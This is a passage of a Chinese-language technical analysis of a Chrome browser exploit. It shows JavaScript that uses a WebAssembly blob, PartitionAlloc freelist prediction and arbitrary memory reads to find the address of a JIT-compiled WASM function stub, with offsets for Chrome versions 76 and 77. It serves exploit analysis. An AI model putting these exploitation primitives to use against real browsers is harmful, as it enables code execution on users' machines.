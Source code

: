 ```
const wasmBuffer = new Uint8Array([...]);
const wasmBlob = new Blob([wasmBuffer], `{`
    type: "application/wasm"
`}`);

const wasmUrl = URL.createObjectURL(wasmBlob);
var wasmFuncA = undefined;
WebAssembly.instantiateStreaming(fetch(wasmUrl), `{``}`).then(function(result) `{`
    wasmFuncA = result.instance.exports.a;
`}`);
```

为了执行导出函数wasmFuncA，利用代码创建一个FileReader对象。当使用数据初始化此对象时，它将在内部创建FileReaderLoader对象。如果可以解析PartitionAlloc分配器结构并得知将要分配的下一个对象的大小，则可以预测它将分配到哪个地址。该利用代码通过已得知的大小调用getPartitionPageFreeListHeadEntryBySlotSize()函数，并获取将由FileReaderLoader分配的下一个空闲块的地址。

```
let fileReader = new FileReader;
let fileReaderLoaderSize = 0x140;
let fileReaderLoaderPtr = getPartitionPageFreeListHeadEntryBySlotSize(freelist, iirFilterFeedforwardAllocationPtr, fileReaderLoaderSize);
if (!fileReaderLoaderPtr)
    return;

fileReader.readAsArrayBuffer(new Blob([]));

let fileReaderLoaderTestPtr = getPartitionPageFreeListHeadEntryBySlotSize(freelist, iirFilterFeedforwardAllocationPtr, fileReaderLoaderSize);
if (fileReaderLoaderPtr == fileReaderLoaderTestPtr)
    return;
```

该利用代码两次获取该地址，以判断是否创建了FileReaderLoader对象，以及利用代码是否可以继续执行。利用代码将导出的WASM函数设置为一个FileReader事件的回调（在本例中为onerror回调），并且由于FileReader类型是从EventTargetWithInlineData派生的，因此可以用来获取其所有事件的地址和JIT编译导出的WASM函数的地址。

```
fileReader.onerror = wasmFuncA;

let fileReaderPtr = read64(freelist, fileReaderLoaderPtr + BigInt(0x10)) - BigInt(0x68);

let vectorPtr = read64(freelist, fileReaderPtr + BigInt(0x28));
let registeredEventListenerPtr = read64(freelist, vectorPtr);
let eventListenerPtr = read64(freelist, registeredEventListenerPtr);
let eventHandlerPtr = read64(freelist, eventListenerPtr + BigInt(0x8));
let jsFunctionObjPtr = read64(freelist, eventHandlerPtr + BigInt(0x8));

let jsFunctionPtr = read64(freelist, jsFunctionObjPtr) - BigInt(1);
let sharedFuncInfoPtr = read64(freelist, jsFunctionPtr + BigInt(0x18)) - BigInt(1);
let wasmExportedFunctionDataPtr = read64(freelist, sharedFuncInfoPtr + BigInt(0x8)) - BigInt(1);
let wasmInstancePtr = read64(freelist, wasmExportedFunctionDataPtr + BigInt(0x10)) - BigInt(1);

let stubAddrFieldOffset = undefined;
switch (majorVersion) `{`
    case 77:
            stubAddrFieldOffset = BigInt(0x8) * BigInt(16);
    break;
    case 76:
            stubAddrFieldOffset = BigInt(0x8) * BigInt(17);
    break
`}`

let stubAddr = read64(freelist, wasmInstancePtr + stubAddrFieldOffset);
```
